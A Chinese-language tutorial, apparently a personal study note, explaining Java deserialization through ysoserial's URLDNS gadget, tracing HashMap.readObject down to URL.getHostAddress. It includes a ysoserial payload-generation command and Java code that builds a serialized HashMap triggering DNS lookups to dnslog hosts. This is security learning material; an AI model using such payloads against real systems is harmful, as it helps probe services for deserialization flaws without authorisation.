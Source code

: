 # 1.Java 反序列化

关于java的反序列化只是大概知道是因为readObject方法，导致的但是怎么个过程导致的rce，还是很迷糊的。

但是直接从CC链来学习的话，对新手实在不太友好。所以，今天从`ysoserial.jar`中最简单的URLDNSgadget来学习一下反序列化的流程。



# 2.URLDNS

ysoserial urldns gadget的作用是类似于dnslog，利用的jdk中的URL class 无需第三方依赖。

![image-20211130222033995](images/image-20211130222033995.png)

生成poc

`java -jar ysoserial.jar URLDNS http://psdjax.dnslog.cn > a.bin`



Java模拟反序列化

```java
package com.company;

import java.io.FileInputStream;
import java.io.ObjectInputStream;
import java.net.URL;

public class Main {
    public static void main(String[] args) throws Exception {
        ObjectInputStream ois = new ObjectInputStream(new FileInputStream("a.bin"));
        URL url = (URL) ois.readObject();
    }
}
```



执行以后成功收到dnslog

![image-20211201093003731](images/image-20211201093003731.png)



在ysoserial中查看gadget的实现`src/main/java/ysoserial/payloads/URLDNS.java`



其中核心大概就是这么几句代码

![image-20211201093905226](images/image-20211201093905226.png)

其中最主要的逻辑 new 了一个 HashMap，然后put进去一个 URL class，然后return。



反序列化的触发点，一定是readObject，所以我们直接来看HashMap class的readObject方法



前面都不需要怎么看，其中最重要的就是hash方法

![image-20211201095107810](images/image-20211201095107810.png)



跟进到hash方法

![image-20211201095253915](images/image-20211201095253915.png)

在hashmap class的hash方法里面，是通过调用key的hashCode方法来获得的hash。



而这里的key的值是,前面put进去的一个URL对象

```java
URL u = new URL(null, url, handler); // URL to use as the Key
ht.put(u, url); //The value can be anything that is Serializable, URL as the key is what triggers the DNS lookup.
```



查看URL hash方法

![image-20211201095859435](images/image-20211201095859435.png)

继续跟进，然后最关键的代码就来了。



首先获取了协议，然后使用了getHostAddress来获取url ip地址。到这一步就执行了我们的dnslog请求。

![image-20211201100051791](images/image-20211201100051791.png)

这个gadget的实现其实很简单，方法调用也不深，我们用几行代码。自己来实现一个

```java
package com.company;

import java.io.*;
import java.net.URL;
import java.util.HashMap;

public class Main {
    public static void main(String[] args) throws Exception {
        HashMap ht = new HashMap();
        URL u = new URL("http://ls8ztu.dnslog.cn"); // URL to use as the Key
        ht.put(u, "1");

        ObjectOutputStream f = new ObjectOutputStream(new FileOutputStream("dns.bin"));
        f.writeObject(ht);
        ObjectInputStream ois = new ObjectInputStream(new FileInputStream("dns.bin"));
    }
}
```



执行以后，会收到2个dns请求

![image-20211201101034329](images/image-20211201101034329.png)



为什么会是两个呢，这是因为



我们在put的时候就会执行一次hash，反序列化的时候又执行了一次就是两次了，这样在实际使用的时候容易，造成误判。

![image-20211201115100427](images/image-20211201115100427.png)



那么ysoserial是怎么解决这个问题的呢，ysoserial自己实现了一个Handler，然后将getHostAddress方法重写为直接返回null。就不会触发请求了。



![image-20211201115603597](images/image-20211201115603597.png)

